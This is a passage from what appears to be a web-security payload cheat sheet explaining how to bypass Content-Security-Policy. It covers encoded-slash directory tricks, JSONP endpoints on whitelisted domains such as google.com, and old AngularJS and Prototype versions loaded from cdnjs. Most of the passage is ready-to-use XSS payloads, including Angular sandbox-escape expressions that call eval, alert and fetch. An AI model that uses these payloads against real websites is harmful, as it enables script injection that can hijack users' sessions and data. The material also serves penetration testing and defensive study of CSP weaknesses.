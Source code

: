 ## Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

```http
Content-Security-Policy: script-src pastebin.com/XYZ/
```

If CSP policy points to a directory and you use `%2f` to encode `/`, it is still considered to be inside the directory. All browsers seem to agree on that. If a server decodes `%2f` it is possible to bypass CSP by using `'%2f..%2f'`. Possible payload:

```html
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

## Bypass using JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none';
```

If the `script-src` is set to `self` and a particular domain is whitelisted it is possible to bypass this using JSONP. JSONP endpoints allow insecure callback methods that allow an attacker to perform XSS. Possible payload:

```html
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
```

References:
- [JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.

## Bypass using vulnerable third-library

```http
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none';
```

If the `script-src` is set to `self` and a javascript library domain is whitelisted it is possible to bypass using any vulnerable version of javascript files from the library that allow you to perform XSS. Working payloads:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js"></script>
<div ng-app ng-csp>
    {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script>
<div ng-app ng-csp>
    {{$eval.constructor('alert(1)')()}}
</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"></script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```

